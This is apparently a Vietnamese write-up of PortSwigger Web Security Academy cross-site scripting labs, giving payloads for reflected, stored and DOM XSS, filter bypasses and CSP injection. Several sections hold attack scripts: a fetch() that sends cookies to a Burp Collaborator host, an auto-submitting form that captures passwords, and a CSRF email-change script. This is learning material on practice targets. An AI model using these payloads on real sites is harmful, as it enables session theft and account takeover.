

# Web07

# XSS

### ****Reflected XSS into HTML context with nothing encoded****

Để ý sâu nhập vào để tìm được hiện lại lên trang web



Nhập sâu `<script>alert(1)</script>` để thực hiện XSS hiện thông báo `alert`


---

### **Stored XSS into HTML context with nothing encoded**

Gửi payload `<script>alert(1)</script>` ở phần bình luận để thực hiện stored XSS. Từ đó bất cứ ai vào phần bình luận do ta đăng tải sẽ đều bị dính XSS.


---

### DOM XSS in document.write sink using source location.search

Đọc source code của website, ta thấy function `trackSearch()` sẽ viết vào document đoạn ``


Do đó trong payload ta cần thêm các dấu `"` và `>` để đóng tag `` lại: `"> <script>alert(1)</script>`


---

### DOM XSS in innerHTML sink using source location.search

Đọc source của website sau khi search, ta thấy đọan script


Hàm `doSearchQuery()` sẽ điền vào phần innerHTML của element có id là `searchMessage` giá trị của query.

Element có id là `searchMessage`


Tuy nhiên, tag `<span>` khoogn chấp nhận tag `<script>` bên trong, do đó ta cần dùng đến các phương thức khác. Gửi payload sử dụng attribute `onload` của tag ``: ``


---

### DOM XSS in jQuery anchor href attribute sink using location.search source\

Đọc source của website thấy có đoạn jQuery thêm atrribute `href` với value là value của param `returnPath` trong URL vào element có id `backLink`


Inject payload XSS vào param `returnPath`: `javascript:alert(document.cookies)`


### **DOM XSS in jQuery selector sink using a hashchange event**

Website sử dụng jQuery để autoscroll đến post có title là phần URL fragment


Như vậy khi URL fragment bị đổi ta sẽ gọi được event `hashchange`

Dùng `iframe` để thực hiện đổi phần hash

```html
<iframe src="https://ac501f901e7e8040c08b068f0042005f.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

Sau khi iframe được load, hash sẽ đổi từ `#` thành `#` và thực hiện được XSS


Gửi link cho victim để hoàn thành lab

---

### ****Reflected XSS into attribute with angle brackets HTML-encoded****

Nhập thử payload `<script>alert(1)</script>` vào phần search, thấy dấu đóng mở ngoặc nhọn đã bị HTML encoded


Tuy nhiên để ý phần tag `input` có attribute `value` cũng reflect lại query của mình

Gửi payload `" onfocus="alert(1)" autofocus="` để thực hiện XSS. attribute `onfocus` sẽ thực hiện `alert()` khi ta trỏ chuột đến element có attribute đó, còn attribute `autofocus` sẽ tự thực hiện focus sau khi page được load hoàn chỉnh.


---

### ****Stored XSS into anchor `href` attribute with double quotes HTML-encoded**

Gửi comment với payload để test HTML encode


Nhận thấy phần `comment` và `name` sẽ bị HTML encode, nhưng phần `website` ở attribute `href` sẽ thì không


Gửi lại payload với param `website` là `"><script>alert(1)</script><a>` để cân bằng các tag


Kết quả


---

### ****Reflected XSS into a JavaScript string with angle brackets HTML encoded****

Đọc HTML src của website thấy đoạn script có biến `searchTerms` nhận nội dung của param `search`.


Ta có thể thoát khỏi JS string với payload `%27%0aalert(1)%0a%27`


---

### ****DOM XSS in document.write sink using source location.search inside a select element****

Đọc HTML src trong trang sản phẩm thấy đoạn script


Như vậy nó sẽ lấy param `storeId` trong url để viết vào document

Gửi payload `storeId=<script>alert(1)</script>` để thực hiện XSS


---

### ****DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded****

Để ý tag `body` có attribute `ng-app` → ta có thể dùng `{{  }}` để thực thi JS


Tìm payload XSS cho AngularJS trên [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS)

```jsx
{{constructor.constructor('alert(1)')()}}
```

Gửi payload, nhận thấy `alert(1)` đã được thực thi


---

### ****Reflected DOM XSS****

Xem trong src HTML thấy có `/resources/js/searchResults.js`. Đọc file js đó thấy đoạn sử dụng `eval()`


Trong đó `this.responseText` sẽ trả về JSON


Và phần `searchTerm` hoàn toàn do ta kiểm soát bằng cách nhập string để search.

Như vậy ta có thể inject đoạn code độc để kiểm soát hàm `eval()`, chẳng hạn như


Tuy nhiên dấu `"` khi gửi lên server, JSON sẽ tự động escape thành `\"`


Với payload `"}; alert(1); {"` khi vào đến eval sẽ trở thành `\"}; alert(1); {\"` (dấu `"` sẽ bị escape). Do đó ta sẽ cần sửa lại payload thành

```jsx
\"}; alert(1); //
```

để khi vào eval, nó sẽ thành `\\"}; alert(1); //` (khi đó dấu `\` sẽ được escape thay vì `"`, và phần sau `//` sẽ thành comment.


---

### **Stored DOM XSS**

Xem trong src HTML thấy có `resources/js/loadCommentsWithVulnerableEscapeHtml.js`. Đọc file js đó thấy đoạn sử dụng `replace()` để đổi các dấu `<>` thành html encode. Tuy nhiên method này chỉ đổi ký tự trùng đầu tiên, các ký tự sau sẽ được giữ nguyên


Do đó khi gửi payload ta chỉ cần thêm `<>` ở đầu để nó bị replace, phần phía sau không bị ảnh hưởng nữa.

Do website sử dụng XHR để load comment sau khi document đã được load nên ta không thể dùng tag `script`. Sử dụng payload với tag `img`

```sql
<>
```


---

### **Exploiting cross-site scripting to steal cookies**

Thử gửi bình luận `<script>alert(1)</script>`, thấy `alert(1)` đã được thực thi → website không có phương thức gì để chống XSS


Gửi payload để victim khi đọc bình luận sẽ gửi một GET request chứa param là cookie đến endpoint của mình

```html
<script>
fetch("https://c9m3232osm2ga4hckx1flmhiu903os.burpcollaborator.net/?"+document.cookie)
</script>
```


Được cookie `session`

Dùng thay cookie `session` trong trình duyệt bằng cookie session ta mới lấy được để solve lab


---

### ****Exploiting cross-site scripting to capture passwords****

Thử gửi bình luận `<script>alert(1)</script>`, thấy `alert(1)` đã được thực thi → website không có phương thức gì để chống XSS


Tạo form nhập `username` và `password` và dùng JS để tự động submit sau 3 giây (thời gian đợi trình duyệt tự nhập thông tin)

```html
<form action="https://uomwcd9zn6ju20gntil47enuul0co1.burpcollaborator.net" id="xss-form">
    <input name=password type=password value="password">
    <input name=username type=text value="username">
</form>
<script>
    setTimeout(function(){document.getElementById("xss-form").submit()}, 3000);
</script>
```

URL encode và gửi payload


Nhận được payload có `username` và `password`


Login vào user admin để hoàn thành lab

---

### **Exploiting XSS to perform CSRF**

Thử gửi bình luận `<script>alert(1)</script>`, thấy `alert(1)` đã được thực thi → website không có phương thức gì để chống XSS


Craft được payload để lấy CSRF token trong trang `/my-account` của victim và gửi request đổi email

```html
<script>
    // get CSRF token
    xhr = new XMLHttpRequest();
    xhr.open("GET", "/my-account", false);
    xhr.send();
    resp = xhr.responseText
    myRegexp = /<input required type="hidden" name="csrf" value="(.*)">/;
    csrf = myRegexp.exec(resp)[1];
    console.log(csrf);

    // post change email request
    fetch("/my-account/change-email", {
        method: 'POST',
        mode:'no-cors',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: 'email=a%40a.a&csrf=' + csrf
    });
</script>
```

Url encode và gửi payload


Thấy lab đã được solve → đổi email thành công


---

### ****Reflected XSS into HTML context with most tags and attributes blocked****

Dùng Burp Intruder để tìm tag không bị block


Nhận thấy tag `body` không bị filtered

Tương tự ta tìm các attribute không bị filtered


Nhận thấy event `onreszie` không bị filtered

Craft payload 

```html
<body onresize=alert(1)>
```


Khi người dùng resize web, `alert(1)` sẽ được thực thi

Tuy nhiên ta cần thực hiện XSS mà không cần sự tương tác của người dùng. Dùng `Iframe` trong Exploit server để thực hiện resize sau khi load xong web

```html
<iframe src=https://0a7a00a2043f2d12c0d84120004a00c6.web-security-academy.net/?search=%3Cbody%20onresize=print()%3E
    onload=this.style.width="50%"></iframe>
```


---

### ****Reflected XSS into HTML context with all tags blocked except custom ones****

Ở lab này custom tag không bị filtered ra → dùng payload

```html
<xss onfocus=alert(1) id=x tabindex=1>
```

Copy link payload, vào exploit server và gửi cho victim để solve lab


---

### ****Reflected XSS with some SVG markup allowed****

Dùng Burp Intruder để tìm tag không bị block


Nhận thấy một số tag không bị filtered


Tương tự ta tìm được các event không bị block


Craft payload từ những tag và event ta có thể sử dụng

```html
"><svg><animatetransform onbegin=alert(1)></svg>
```


---

### ****Reflected XSS in canonical link tag****

Để ý ở phần canonical link tag, phần param ở URL được trả về và dấu `'` không bị url encode → ta có thể kiểm soát nội dung của phần này.


Dùng `accesskey` kết hợp với `onclick` để thực hiện XSS


Như vậy khi user sử dụng `ALT+SHIFT+X` hoặc `CTRL+ALT+X` hoặc `Alt+X` sẽ thực hiện `alert(1)`


---

### **Reflected XSS into a JavaScript string with single quote and backslash escaped**

Có thể thấy nội dung tìm kiếm được gán y nguyên vào xâu JS


Khi xâu ta nhập có tag `</script>` như trên, browser sẽ tự động đống cụm `script` đó lại, phần thừa còn lại sẽ thành HTML thuần.

Do đó ta có thể đóng tag `script` và dùng payload tag `img` 

```html
</script> 
```


---

### **Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**

Ở lab này, nội dung phần tìm kiếm đã bị HTML encode trước khi được gán vào xâu JS


Dấu `'` cũng đã được escape


Tuy nhiên ta có thể dùng `\'` để khi vào xâu JS sẽ trở thành `\\'` → dấu `\` được escape thay vì `'` → thoát khỏi xâu thành công

```jsx
\\'; alert(1)//
```


---

### **Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped**

Khi gửi bình luận với website của tác giả, string đó sẽ được reflect lại vào attribute `href` với dấu `"` hoặc JS string với dấu `'`. Do đó ta có thể chọn để thoát khỏi dấu `"` hoặc `'`.


Dấu `"` được HTML encoded nên sẽ rất khó để thoát khỏi attribute `href`. Trong khi đó dấu `'` được escape ở bên server, do đó ta có thể dùng HTML encode là `&apos;` để tránh bị escape. Browser khi đọc đến sẽ thực hiện HTML decode trước khi thực hiện lệnh JS

```html
http://a%26apos;-alert(1))// 
```


Do đó phần trên sẽ thành

```jsx
var tracker={track(){}};tracker.track('http://'-alert(1))//');
```

và lệnh `alert(1)` sẽ được thực thi


---

### **Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped**

Đọc HTML src, ta thấy đoạn JS sử dụng string literal


Gửi search `${alert(1)}`


---

### **Reflected XSS with event handlers and href attributes blocked**

Dùng Burp Intruder để tìm tag không bị block.


Có được một số tag không bị block


Craft payload tạo link link giả

```html
<svg>
    <a>
        <animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text>
    </a>
</svg>
```


---

### **Reflected XSS in a JavaScript URL with some characters blocked**

Nhận thấy link trở về trang chủ sử dụng location của website


Nhận thấy server side tự bỏ những kí tự ``%()`


Craft payload

```
'},x=x=>{onerror=alert;throw 3},toString=x,this+'',{x:'
```

Gửi request GET đến `/post?postId=5&'},x=x=>{onerror=alert;throw 3},toString=x,this+'',{x:'`

```jsx
fetch('/analytics', {method:'post',body:'/post?postId=5&'},x=x=>{onerror=alert;throw 3},toString=x,this+'',{x:''}).finally(_ => window.location = '/')
```

Hàm `toString` sẽ bị override thành `x`. `this+''` sẽ tự động gọi hàm `toString` để ghép với string `''` → gọi được hàm `alert`

Khi bấm Back to Blog, `alert` sẽ được thực hiện


---

### **Reflected XSS with AngularJS sandbox escape without strings**

Đọc solution

---

### **Reflected XSS with AngularJS sandbox escape and CSP**

Đọc solution

---

### **Reflected XSS protected by very strict CSP, with dangling markup attack**

Đọc solution

---

### **Reflected XSS protected by CSP, with CSP bypass**

Khi gửi search với nội dung `<script>alert(1)</script>`, có thể thấy đoạn script của ta bị chặn bởi CSP


Nhận thấy có vẻ ta có thể inject vào CSP thông qua param `token`


Gửi payload

```
?search=<script>alert(1)</script>&token=; script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```

`script-src-elem 'unsafe-inline'` sẽ ghi đè lên `script-src self` policy → Cho phép thực hiện script

